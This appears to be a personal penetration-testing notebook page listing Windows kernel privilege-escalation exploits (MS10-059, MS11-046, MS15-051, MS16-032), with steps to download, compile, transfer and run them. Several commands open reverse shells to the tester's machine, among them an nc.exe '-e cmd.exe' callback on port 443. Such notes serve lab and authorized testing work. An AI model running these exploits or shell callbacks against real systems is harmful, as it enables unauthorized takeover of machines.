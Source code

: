 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]

[[99.__Links (WINDOWS)#Escalation Path Kernel Exploits]]

![[Pasted image 20221110100719.png]]


#### Chimi Churraskito MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

![[4._File Transfers#Certutil]]

```bash - kail
MS10-059.exe $KALI 443
```

#### MS11-046

```bash - kali
searchsploit -m 40564
```

```bash - kali
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Transfer to Target.

[[4._File Transfers#Certutil]]

Now just run it.
```command prompt - target
MS11-046.exe
```

#### MS15-051

MS15-051 exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

Download zip folder and extract.

Transfer over exe and nc.exe to target

![[4._File Transfers#Certutil]]

[[rlwrap]]

```command prompt - target
ms15-051x64.exe "nc.exe $KALI 443 -e cmd.exe"
```


#### MS16-032

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

Transfer exe over to target

[[4._File Transfers#Certutil]]

```powershell - target
.\ms-16-032.exe
```

